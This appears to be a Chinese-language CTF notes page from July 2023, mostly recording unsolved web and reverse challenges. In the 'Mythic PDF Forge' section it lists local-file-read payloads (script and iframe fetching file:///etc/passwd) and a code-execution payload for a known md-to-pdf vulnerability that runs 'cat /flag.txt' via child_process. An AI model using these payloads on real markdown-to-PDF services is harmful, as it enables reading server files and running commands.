 # web
### Mythic PDF Forge
是一个md转pdf的网站,应该是利用渲染来读取本地文件
![image](https://i.imgur.com/ihETWie.png)
但是一加上file协议就加载不出来了
尝试过的payload
```html
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

```html
<iframe src=file:///etc/passwd height=800px weight=1200px ></iframe>
```
连签到都做不出来了

---
[md to pdf vuln](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) 信息收集背大锅
```js
((require("child_process")).execSync("cat /flag.txt"))
```


### Resty
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230722214328.png)
一个大大的"Invalid route",然后就什么也不会了

---

### Payback
只有一个nginx首页,不会了

### Protobank
访问不到...

# reverse
### Catch the fox
好难,ida打不开,动调会卡住,x32dbg也不会

# pwn

# crypto

# Misc


---
# *相关wp*




2023-07-22   20:33
